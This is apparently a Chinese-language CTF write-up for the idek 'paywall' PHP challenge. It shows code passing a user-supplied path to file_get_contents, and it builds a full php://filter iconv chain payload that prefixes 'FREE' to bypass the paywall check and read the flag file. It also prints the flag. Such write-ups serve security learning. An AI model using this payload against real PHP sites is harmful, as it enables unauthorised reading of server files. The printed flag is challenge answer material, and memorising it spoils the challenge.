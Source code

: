 # 题目信息

Cefu#2122

Check out this local news paper I built using PHP! You'll need to pay in order to view the good stuff though :)

http://paywall.chal.idek.team:1337/

# 解决方案

这里的关键是利用php伪协议，关键代码如下：

```php
$article_content = file_get_contents($_GET['p'], 1);
```

我们要读flag文件的内容，但是flag文件的内容是PREMIUM开头的，我们要想办法绕过，服务器检测逻辑如下：

```php
            if (strpos($article_content, 'PREMIUM') === 0) {
                die('Thank you for your interest in The idek Times, but this article is only for premium users!'); // TODO: implement subscriptions
            }
            else if (strpos($article_content, 'FREE') === 0) {
                echo "<article>$article_content</article>";
                die();
            }
            else {
                die('nothing here');
            }
```

已知服务器php版本是8.0，查该版本的文档，发现可以利用的伪协议有string.rot13、string.toupper、string.tolower、convert.base64-encode、convert.base64-decode等，刚开始想通过各种转换拼出FREE，然后查看就可以查看内容，然后再逆向还原，但是尝试了半天，转不出FREE开头的字符串，后面看到别人分享的资料，才知道如何通过PHP伪协议构造出任意想要的字符串，参考链接如下：

- [博文](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)
- [源码](https://github.com/synacktiv/php_filter_chain_generator)

最后构造出的payload如下：

```
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=flag

```

直接拿到flag：

```
idek{Th4nk_U_4_SubscR1b1ng_t0_our_n3wsPHPaper!}
```